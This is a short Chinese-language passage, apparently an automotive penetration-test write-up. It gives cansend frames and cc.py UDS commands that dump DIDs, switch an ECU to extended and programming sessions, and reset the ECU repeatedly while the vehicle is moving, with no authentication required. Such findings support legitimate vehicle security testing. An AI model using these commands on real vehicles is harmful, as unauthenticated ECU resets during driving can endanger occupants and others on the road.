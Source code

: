 尝试进行重置ECU,读取任意did等操作,发现并没有鉴权

`cc.py uds dump_dids 0x607 0x608`

![图片](assets/1704762236-d120944fdd8088abf84a7868893d64f6.png)

切换至扩展会话模式

`cansend can0 607#0210030000000000`

在车辆行驶的过程中向车辆发送

**发送重置ecu请求，** 多次发送可以发现Ecu无限制重置

`cc.py uds ecu_reset 2 clientid serverid`

![图片](assets/1704762236-3212788d1c03f8b874d82f7b4fb591ee.png)

**27服务安全性**

切换至编程模式

`cansend can0 607#0210020000000000`
